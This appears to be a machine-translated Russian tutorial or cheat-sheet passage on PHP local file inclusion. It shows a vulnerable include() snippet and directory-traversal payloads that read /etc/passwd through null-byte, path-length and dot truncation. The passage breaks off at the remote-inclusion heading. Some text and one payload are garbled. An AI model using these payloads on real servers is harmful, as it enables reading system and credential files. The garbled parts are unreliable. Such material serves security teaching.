 ```yaml
---
title: PHP
---
```


## Файл содержит

Общие функции, которые вызывают включение файлов:

- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()`
- JSP Servlet： `ava.io.File ()` ， `java.io.FileReader ()`
- ASP：`includefile`，`includevirtual`

Когда PHP включает файл, он будет выполняться как код PHP, независимо от типа файла.

### Локальный файл содержит

Локальный файл содержит включение локального файла, LFI.

```php
<?php
    $file = $_GET['file'];
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
        include '/home/wwwrun/'.$file.'.php';
    }
?>
```

В приведенном выше коде содержится локальный файл, а содержимое файла `/etc/passwd` можно прочитать, усекая %00.

- `%00` усечение

        ```text
        ?file=../../../../../../../../../etc/passwd%00
        ```
        
        Требуется `magic_quotes_gpc=off`, PHP менее 5.3.4.

- Усечение длины пути
        
        ```text
        ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
        ```
        
        Linux требует, чтобы имя файла было длиннее 4096, а Windows должно быть длиннее 256.

- Усечение числа точек

        ```text
        ?file = ... / ... // ... // ... // ... / / boot.ini/ ……… [...] …………
        ```
        
        Только для Windows количество точек должно быть больше 256.

### Удаленный файл содержит
